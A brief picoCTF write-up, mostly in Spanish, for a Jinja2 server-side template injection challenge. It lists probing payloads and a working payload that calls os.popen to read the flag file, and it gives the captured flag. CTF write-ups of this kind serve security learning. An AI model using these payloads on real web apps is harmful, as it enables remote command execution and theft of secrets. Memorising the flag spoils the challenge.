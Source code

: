 
#### Description

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:50911/)!


Detalles: para solucionar el reto tenemos que ir al sitio proporcionado y intentar distintos payloads  
Payloads:
{{config}}
{{settings}}
{{settings.SECRET_KEY}}
etc una ves probados bastantes payloads sacados de las siguientes webs https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#jinja2-python 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSLT%20Injection/README.md

formaremos el siguiente payload que nos dara la bandera: 

{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}} 
# # picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}


recursos: https://www.youtube.com/watch?v=i31LwsQTy8I&ab_channel=BlackBatTerminal

Equipo: Marco Rojas, Brandon Omar, Luis Jesús 
